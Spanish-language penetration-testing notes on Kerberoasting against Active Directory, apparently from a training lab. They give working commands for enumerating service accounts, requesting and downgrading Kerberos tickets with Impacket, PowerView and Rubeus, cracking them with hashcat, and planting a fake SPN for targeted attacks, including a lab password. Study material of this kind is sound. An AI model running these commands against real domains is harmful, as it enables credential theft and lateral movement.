 #kerberoasting
Técnica de escalada de privilegios y movimiento lateral. Se atacan cuentas asociadas a SPN solicitando tickets TGS, para posteriormente crackearlos con hashcat. Cualquier usuario autenticado en el AD puede solictar un ticket TGS.
## Linux
Necesitamos tener credenciales de acceso (texto plano o NTML hash) y una shell en el contexto del usuario de dominio o `SYSTEM` shell. En los ejemplos suponemos que tenemos acceso al dominio con el usuario `forend`
- Listar cuentas SPN - GetUserSPNs.py 
	```bash
	impacket-GetUserSPNs -dc-ip $dcip $domain/$username 
	```
- Solicitar todos los tickets TGS (añadir la flag `-requets` al comando anterior)
	```bash
	impacket-GetUserSPNs -dc-ip $dcip $domain/$username -request -outputfile allTickets
	```
- Solicitar el ticket de un solo servicio (ej: `sqldev`)
	```bash
	impacket-GetUserSPNs -dc-ip 172.16.5.5 $domain/$username -request-user sqldev
	```

### Windows 
Se podría hacer de forma semi-manual si no funciona ninguna de estas opciones (documentado en notion)
#### Powerview
- Único target
	```powershell
	Import-Module .\PowerView.ps1 
	Get-DomainUser * -spn | select samaccountname 
	# Supongamos que a partir de aquí seleccionamos como objetivo sqldev 
	Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
	```
- Exportar todos los tickets en csv
	```powershell
	Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
	```
 
#### Rubeus
Tiene alguna opción adicional a las de PowerView
- Obtener información sobre tickts TGS
	```powershell
	.\Rubeus.exe kerberoast /stats
	```
- Extraer todos los tickets TGS
	```powershell
	.\Rubeus.exe kerberoast /nowrap
	.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
	```
- Extraer los tickets de las cuentas más valiosas (`admincount=1`)
	```powershell
	.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
	```
- Extraer spn de un servicio concreto (ej: `sqldev` )
#### Cambiando el formato del hash (downgrading) - hasta Windows Server 2019 
Las cuentas de servicio que tienen encriptación `AES 128/256`, también pueden ser craqueadas, pero el proceso es mucho más lento. (se podría hacer con `hashcat -m 19700`)
- Forzar a generar un ticket con encriptación `RC4 HMAC`
	```powershell
	.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
	```
### Craquear offline los tickets - hashcat
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```
- Una vez craqueado, lo consideramos como un usuario más (podemos intentar rdp ó impacket-psexec o similar sobre él)

## Kerberoasting dirigido
La idea es tratar de craquear la cuenta de usuario que queramos creando un SPN falso asociado a ese usuario. Para poder realizar un ataque de este tipo necesitamos tener la capacidad de modificar o agregar SPNs en una cuenta de usuario. 
### Requisitos

| Permiso           | Descripción                                                  | Impacto en Kerberoasting Dirigido                     |
| ----------------- | ------------------------------------------------------------ | ----------------------------------------------------- |
| **GenericAll**    | Control total sobre el objeto.                               | Modifica cualquier atributo, incluido SPN.            |
| **GenericWrite**  | Escritura en cualquier atributo del objeto.                  | Permite añadir/modificar SPNs.                        |
| **WriteProperty** | Escritura en atributos específicos (`servicePrincipalName`). | Modifica solo atributos seleccionados.                |
| **WriteDACL**     | Modificación de la DACL para otorgarse permisos adicionales. | Otorga permisos como `GenericWrite` sobre SPN.        |
| **Self**          | Permite modificar ciertos atributos del propio objeto.       | Puede modificar su propio SPN si tiene `Self` en SPN. |
### Ataque 
- Creamos un objeto de tipo `$Cred` con las credenciales de un usuario que tenga permisos para crear un SPN (ej: `damundsen`)
	```powershell
	$pass = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force 
	$cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen',$pass )
	```
- Creamos un fake SPN con PowerView para el usuario que queramos comprometer (ej: `adunn`) - `Set-DomainObject`
```powershell
Set-DomainObject -Credential $cred -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
- Obtenemos información sobre el ticket creado con `rubeus`
	```powershell
	.\Rubeus.exe kerberoast /user:adunn /nowrap
	```
- Tratamos de craquear el ticket con `hashcat -m 13100`